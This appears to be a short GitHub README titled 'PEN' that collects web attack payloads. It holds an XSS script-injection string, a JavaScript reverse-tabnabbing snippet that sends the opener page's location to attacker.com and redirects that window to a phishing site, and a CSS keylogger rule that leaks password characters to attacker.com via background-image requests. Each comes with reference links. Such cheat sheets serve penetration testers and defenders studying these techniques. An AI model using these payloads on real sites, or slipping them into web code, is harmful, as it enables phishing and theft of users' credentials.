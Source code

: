 # PEN
"><script>alert\`XSS\`</script>
  
----
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener) {
      fetch("//attacker.com/log/start/phishing/?location=" + window.opener.location)
      .then(response => {
        // Wait for the deployment of the phishing site.
        setTimeout(() => {
          // Then redirect the opener browser window to the attacker site.
          window.opener.location = 
              `https://attacker.com/${response.json().uuid}/${window.opener.location}`
              
        }, 5000)
      })
      .catch(err => {
        // Error, maybe CSP :(
        
        let fakeImage = new Image();
        fakeImage.src = "//attacker.com/log/?location=" + window.opener.location
      });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
